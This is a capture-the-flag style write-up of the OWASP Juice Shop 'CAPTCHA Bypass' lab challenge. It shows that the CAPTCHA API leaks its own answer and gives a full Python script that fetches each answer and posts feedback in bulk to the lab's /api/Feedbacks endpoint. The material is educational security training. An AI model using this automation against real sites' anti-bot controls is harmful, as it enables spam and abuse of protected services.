




# CAPTCHA Bypass

**Category:** [Broken Anti-Automation](https://pwning.owasp-juice.shop/companion-guide/latest/part2/broken-anti-automation.html)

:::note
This documentation is for educational purposes only. See full [Disclaimer](../README.md#disclaimer)
:::

## Description

The challenge is to submit 10 (or more) customer feedbacks within 20 seconds. There is more than one way to solve the challenge.
This is the automated solution.

## Exploitation

The starting point for this exploit is the feedback form.



If we intercept the loading of the form with Burp Suite, we can see that the CAPTCHA is requested from the backend.



The `"captcha": "10+10*2",` matches the CAPTCHA in the feedback form. Fortunately for us, the API repsonse also contains the `"answer": "30"`.

Sending and intercepting some test data shows us the API endpoint where the feedback is sent.




This is all the info we need to write an automated CAPTCHA bypass. We use a [custom CLI tool](#autofeedback) written in python.

```sh
python autofeedback.py 10.0.2.3:3000
```
At the end, the tool gives a summary: `created 10 feedbacks in 0.598246 seconds`

This solves the challenge `Submit 10 or more customer feedbacks within 20 seconds`.

## Custom Tools

### Autofeedback

This tool automates the process of requesting the CAPTCHA from the backend and use the data for sending a POST request to `/api/Feedbacks`.

```py title="autofeedback.py"
import argparse
import requests
import time
from urllib.parse import urljoin

def create_feedback(host: str):

    baseUrl = f"http://{host}"

    s = requests.Session()
    response = s.get(urljoin(baseUrl, "/rest/captcha"))
    captcha = response.json()
    id = captcha["captchaId"]
    answer = captcha["answer"]

    payload = {
        "captchaId": id,
        "captcha": answer,
        "comment": "your captcha is useless",
        "rating": 0
    }

    resp = s.post(
        urljoin(baseUrl, "/api/Feedbacks/"),
        json=payload
    )

    return resp.status_code == 201

def main():
    parser = argparse.ArgumentParser(description="Juice Shop automated feedback")
    parser.add_argument("host", help="Host/IP of the Juice Shop")
    parser.add_argument("-a", "--amount", default=10, help="Number of feedbacks to create")
    args = parser.parse_args()
    amount = int(args.amount)

    created = 0
    start = time.perf_counter()
    for i in range(amount):
        success = create_feedback(args.host)
        if success:
            created += 1
    end = time.perf_counter()

    print(f"created {created} feedbacks in {end - start:.6f} seconds")


if __name__ == "__main__":
    main()

```